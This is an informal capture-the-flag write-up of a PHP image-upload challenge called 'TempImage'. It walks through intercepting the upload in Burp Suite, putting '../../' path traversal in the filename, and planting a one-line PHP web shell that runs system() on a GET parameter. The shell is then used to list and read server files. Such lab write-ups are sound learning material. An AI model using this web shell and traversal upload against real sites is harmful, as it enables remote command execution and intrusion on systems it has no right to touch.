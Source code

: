 Moderate 	TempImage 	Web 	0 / 2 	
Hints | Terminate 

From studying the site i can see it uses php, and you can upload pictures, uploaded pictures have to be png, i also see that pictures uploaded are encoded as a md5 hash. I have already done something similair on picoCTF and that was exploting the picture upload to do something on the php end so i think this is the same. SOmething simialir at least.

After having digged thrugh pictures and uploads and explored what happens i ended up using burpsuite to intercept the request and modify the request in the repeater
 tab where i changed the filename to ../../cat php which gave me the flag.... pretty easy. I feel like the picoctf task u had to do more but this is similair of course without having to change the file extension to php and etc and injecting php commands in that code/file/picture.

 FirstFlag.png

 after trying myself i was unsure what to do so i checked what other writeups did and they actually did kinda the same as picoCTF by uploading a png file and kind of turning it into a php file file not a php picture if that makes sense. SO we go ahead and try to get php web shell access by putting this in my php file: or at least in the burp suite request: <?php echo system($_GET['command']); ?> we also have to trick the upload by doing file traversal vulnerability: /../../test.php by doing this you can see your php file on the website having being uploaded correctly: 
 
 PHP.png

 now we do commands from the website/ aka web shell we have to write beside the php picture: ?command=ls then we get something similair to my picture below:

 PHPTest.png

 now that we see what files are in the server we cat to the diffrent files until we find the correct file that contains our flag, if that is the case unless we have to do something more.

 Index.png